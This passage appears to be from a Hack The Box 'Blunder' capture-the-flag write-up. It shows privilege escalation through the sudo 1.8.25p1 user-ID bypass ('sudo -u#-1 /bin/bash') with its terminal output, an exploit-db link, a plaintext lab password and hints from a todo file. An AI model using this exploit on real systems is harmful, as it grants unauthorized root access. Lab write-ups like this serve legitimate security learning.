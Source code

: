 {% highlight bash %}
hugo@blunder:/tmp$ sudo -V
sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
{% endhighlight %} 

Simply Googling `sudo 1.8.25p1 exploit`, led us to this [exploit](https://www.exploit-db.com/exploits/47502). If you read the exploit the perms match our current `sudo -l` perms.

{% highlight bash %}
hugo@blunder:/$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120
root@blunder:/# whoami
whoami
root
root@blunder:/# cd /root
cd /root
root@blunder:/root# wc -c root.txt
wc -c root.txt
33 root.txt
root@blunder:/root
{% endhighlight %} 

#### Extra

If you read the `todo.txt` file properly.

{% highlight bash %}
┌─[fumenoid@parrot]─[~/Desktop/Fumenoid/Pentest/HTB/Blunder_Rooted]
└──╼ $cat todo.txt 
- Update the CMS
- Turn off FTP - DONE
- Remove old users - DONE
- Inform fergus that the new blog needs images - PENDING
{% endhighlight %} 

There are 3 hints in it.
1. username - `fergus`
2. `new blog needs images` - The bludit exploit was actually due to some vuln related to images(hint for guys who manually exploited it instead of metasploit exploit)
3. `Update the CMS` - The box had two bludit version and we got the password for user in updated version.

Always read `TODO notes` properly.

###### Hope you learned something new, if you face any issues / have any query, feel free to contact me on social media.

